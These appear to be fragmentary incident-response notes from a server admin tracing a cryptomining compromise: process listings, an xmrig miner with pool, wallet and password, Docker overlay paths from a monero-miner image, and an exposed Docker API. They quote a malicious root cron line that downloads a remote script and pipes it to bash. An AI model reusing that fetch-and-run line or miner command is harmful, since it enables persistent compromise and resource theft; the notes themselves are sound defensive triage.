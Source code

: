32147 root      20   0   51000   1104    204 S 132.9  0.0  23:13.58 whoami
 2690 root      20   0   51000   1312    200 S 132.2  0.0  20:02.49 cd /etc
 1949 root      20   0   51000   1224    204 S 131.6  0.0  20:55.64 ls -la

 103.25.178.154


root      1501  0.0  0.0 115440   336 ?        S    1月25   0:00 /bin/sh /usr/local/mysql/bin/mysqld_safe --datadir=/data/mysql --pid-file=/data/mysql/mysql.pid

netstat -nt | grep 172.16.0.236 | awk '{print $5}' | awk -F":" '{print $1}' | sort | uniq -c | sort -nr

27.187.40.155
27.187.40.155 5685


mysql     1515  0.1  0.2 942628 32656 ?        Ssl  2月05   4:43 ./xmrig --algo=cryptonight-lite --url=pool.aeon.hashvault.pro:3333 --user=WmthxKa4FVvSDA8fjyXiZJB3WWWFxumQJAZfRGmrMCaMCooq52sipimAYJM2NYNy34bJUX566wEBmEC2QmdmnVLh2GzgRy4F6 --pass=phantompain --donate-level=1 --max-cpu-usage=100
mysql     2513  0.1  8.8 2486028 1435868 ?     Sl   1月25  22:32 /usr/local/mysql/bin/mysqld --basedir=/usr/local/mysql --datadir=/data/mysql --plugin-dir=/usr/local/mysql/lib/plugin --user=mysql --log-error=/data/mysql/mysql-error.log --open-files-limit=65535 --pid-file=/data/mysql/mysql.pid --socket=/tmp/mysql.sock --port=3306

http://www.mamicode.com/info-detail-2416637.html



vim /var/spool/cron/root
0 0 * * * /usr/bin/wget -qO- http://d1acj5w9t09ym0.cloudfront.net/fr.sh | bash

xmrig 一直还有
mysql    31261  659  0.1 730160 26184 ?        Ssl  20:19   4:10 ./xmrig --algo=cryptonight-lite --url=pool.aeon.hashvault.pro:3333 --user=WmthxKa4FVvSDA8fjyXiZJB3WWWFxumQJAZfRGmrMCaMCooq52sipimAYJM2NYNy34bJUX566wEBmEC2QmdmnVLh2GzgRy4F6 --pass=phantompain --donate-level=1 --max-cpu-usage=100

-bash-4.2# find / -name xmrig
/var/lib/docker/overlay2/3c3b765e5e7c7f456154b180dd00603bf7f88a674b204ddbc5d5dbd962a9557f/merged/home/monero/xmrig
/var/lib/docker/overlay2/7d5eed4475b53b5cd03b160ebf35c55b433aaf0f826b408d11b98ddae04c8606/diff/home/monero/xmrig


kannix/monero-miner


## 还原
docker -H tcp://172.16.0.236:2375 ps -a
https://www.cnblogs.com/hanyifeng/p/5526799.html

mqtsiiseocvibfhc



